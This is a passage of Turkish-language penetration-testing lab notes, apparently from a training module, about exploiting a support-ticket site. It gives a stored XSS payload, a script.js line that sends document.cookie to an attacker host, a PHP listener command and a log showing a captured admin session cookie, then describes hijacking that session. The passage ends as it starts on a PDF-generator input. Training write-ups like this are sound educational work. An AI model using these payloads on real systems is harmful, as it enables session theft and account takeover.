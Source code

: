 2. script.js

```javascript
new Image().src='http://10.10.14.15:9200/index.php?c='+document.cookie
```

Ardından, saldırı hostunuzda aşağıdaki gibi bir PHP web sunucusu başlatın:

```shell-session
sudo php -S 0.0.0.0:9200
```

Son olarak, yeni bir ticket oluşturun ve mesaj alanına aşağıdakileri gönderin:

```javascript
"><script src=http://10.10.14.15:9200/script.js></script>
```

Web sunucumuzda bir admin session cookie'si ile bir callback alıyoruz:

```shell-session
[!bash!]$ sudo php -S 0.0.0.0:9200

[Tue Jun 21 00:33:27 2022] PHP 7.4.28 Development Server (http://0.0.0.0:9200) started
[Tue Jun 21 00:33:42 2022] 10.129.203.101:40102 Accepted
[Tue Jun 21 00:33:42 2022] 10.129.203.101:40102 [200]: (null) /script.js
[Tue Jun 21 00:33:42 2022] 10.129.203.101:40102 Closing
[Tue Jun 21 00:33:43 2022] 10.129.203.101:40104 Accepted
[Tue Jun 21 00:33:43 2022] 10.129.203.101:40104 [500]: GET /index.php?c=session=fcfaf93ab169bc943b92109f0a845d99

<SNIP>
```

Daha sonra, admin'in session cookie'sini kullanarak giriş yapmak için [Cookie-Editor](https://addons.mozilla.org/en-US/firefox/addon/cookie-editor/?utm_source=addons.mozilla.org&utm_medium=referral&utm_content=search) gibi bir Firefox plugin'i kullanabiliriz.

![Pasted image 20241231173625.png](/img/user/resimler/Pasted%20image%2020241231173625.png)

**Save** butonuna tıklayarak **session** adlı cookie'yi kaydedin ve sağ üstteki **Login** butonuna tıklayın. Her şey beklendiği gibi çalışıyorsa, **[http://support.inlanefreight.local/dashboard.php](http://support.inlanefreight.local/dashboard.php)** adresine yönlendirileceksiniz. Biraz zaman ayırarak bir başka bulgu olan **Cross-Site Scripting (XSS)**'i kaydedin. Bu bulgu, yüksek riskli olarak not edilmelidir çünkü aktif bir admin'in oturumunu çalmak ve ticketing (destek talepleri) kuyruğu sistemine erişmek için kullanılabilir. **Cross-Site Scripting (XSS)** modülüne başvurarak XSS'in nasıl çalıştığını ve bu tür güvenlik açıklarının, oturum kaçırma dahil olmak üzere, farklı şekillerde nasıl kullanılabileceğini gözden geçirin.

## tracking.inlanefreight.local

**[http://tracking.inlanefreight.local/](http://tracking.inlanefreight.local/)** adresindeki site, bir takip numarası girmemize ve siparişimizin durumunu gösteren bir **PDF** oluşturmamıza olanak tanıyor. Uygulama, kullanıcı girdisini alarak bir PDF belgesi oluşturuyor. PDF oluşturma sırasında, **Tracking #:** alanının yalnızca sayıları değil, arama kutusuna yazdığımız herhangi bir girdiyi kabul ettiğini görebiliyoruz.
